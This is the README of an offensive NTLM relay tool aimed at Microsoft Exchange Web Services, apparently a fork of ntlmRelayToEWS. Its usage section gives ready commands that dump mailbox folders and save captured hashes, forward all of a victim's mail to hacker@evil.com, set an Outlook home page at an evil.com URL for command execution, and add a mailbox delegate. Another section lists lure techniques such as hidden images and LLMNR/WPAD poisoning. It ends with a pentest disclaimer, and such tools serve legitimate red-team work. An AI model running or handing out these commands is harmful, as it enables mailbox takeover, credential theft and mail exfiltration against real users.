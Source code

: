 MsExchangeRelay based on ntlmRelayToEWS
============

Based on ntlmRelayToEWS - Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

Modified by MISTeam 

**ntlmRelayToEWS** is a tool for performing ntlm relay attacks on Exchange Web Services (EWS). It spawns an SMBListener on port 445 and an HTTPListener on port 80, waiting for incoming connection from the victim. Once the victim connects to one of the listeners, an NTLM negociation occurs and is relayed to the target EWS server.

Obviously this tool does **NOT** implement the whole EWS API, so only a handful of services are implemented that can be useful in some attack scenarios. I might be adding more in the future. See the 'usage' section to get an idea of which EWS calls are being implemented.

Limitations and Improvements
----------------------
**Exchange version**:<br>
I've tested this tool against an **Exchange Server 2010 SP2** only (*which is quite old admitedly*), so all EWS SOAP request templates, as well as the parsing of the EWS responses, are only tested for this version of Exchange.
Although I've not tested myself, some reported this tool is also working against an **Exchange 2016 server**, out of the box (*ie: without any changes to the SOAP request templates*).

Prerequisites
----------------------
**ntlmRelayToEWS** requires a proper/clean install of [Impacket](https://github.com/CoreSecurity/impacket) at least v0.9.17. So follow their instructions to get a working version of Impacket.

Improovements
----------------------
Changed impacket v0.9.15 to v0.9.18. So SMB server works with SMB2 and Windows 10 clients<br>
Added domain filter parameter to SMB server - so U can filter incoming SMB auth requests by used SMB DOMAIN and do not relay wrong request to OWA<br>
Added http OPTIONS and HEAD reply so MS Office user-agent works correctly.<br>
Added failed logins logging<br>
Added date and time to log file<br>
Added download limits<br>

Usage
----------------------
**ntlmRelayToEWS** implements the following attacks, which are all made on behalf of the relayed user (*victim*).

Refer to the help to get additional info: `./ntlmRelayToEWS -h`. Get more debug information using the `--verbose` or `-v` flag.

**getFolder and save NTLM-SSP hash**<br>
Retrieves all items from a predefined folder (*inbox, sent items, calendar, tasks*) and save NTLM-SSL hash (failed and success) to file:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r getFolder -f inbox -o out.txt`

**sendMail**<br>
Sends an HTML formed e-mail to a list of destinations:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r sendMail -d "user1@corporate.org,user2@corporate.com" -s Subject -m sampleMsg.html`

**forwardRule**<br>
Creates an evil forwarding rule that forwards all incoming message for the victim to another email address:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r forwardRule -d hacker@evil.com`

**setHomePage**<br>
Defines a folder home page (*usually for the Inbox folder*) by specifying a URL. This technique, uncovered by SensePost/Etienne Stalmans allows for **arbitray command execution** in the victim's Outlook program by forging a specific HTML page: [Outlook Home Page – Another Ruler Vector](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/):<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r setHomePage -f inbox -u http://path.to.evil.com/evilpage.html`

**addDelegate**<br>
Sets a delegate address on the victim's primary mailbox. In other words, the victim delegates the control of its mailbox to someone else. Once done, it means the delegated address has full control over the victim's mailbox, by simply opening it as an additional mailbox in Outlook:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r addDelegate -d delegated.address@corporate.org`

**Limiting folder download**<br>
Use --limit param to limiting download messages<br>
`./ntlmRelayToEWS.py -v -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r getFolder -f inbox --filter LAB --limit 10 `

**Debug**<br>
When U get problem with connection to EWS - U can use it with proxychains and http proxy server, or U can use -v param<br>
`proxychains ./ntlmRelayToEWS.py -v -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r addDelegate -d delegated.address@corporate.org`

How to get the victim to give you their credentials for relaying ?
----------------------
In order to get the victim to send his credentials to ntlmRelayToEWS you can use any of the following well known methods:
  - Send the victim an e-mail with a hidden picture which 'src' attribute points to the ntlmRelayToEWS server, using either HTTP or SMB. Check the `Invoke-SendEmail.ps1` script to achieve this.
  - Create a link file which 'icon' attribute points to the ntlmRelayToEWS using a UNC path and let victim browse a folder with this link
  - Perform LLMNR, NBNS or WPAD poisonning (*think of Responder.py or Invoke-Inveigh for instance*) to get any corresponding SMB or HTTP trafic from the victim sent to ntlmRelayToEWS
  - other ?

Credits
----------------
Based on [Impacket](https://github.com/CoreSecurity/impacket) and *ntlmrelayx* by Alberto Solino [@agsolino](https://twitter.com/agsolino).
Modified by MISTeam

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*
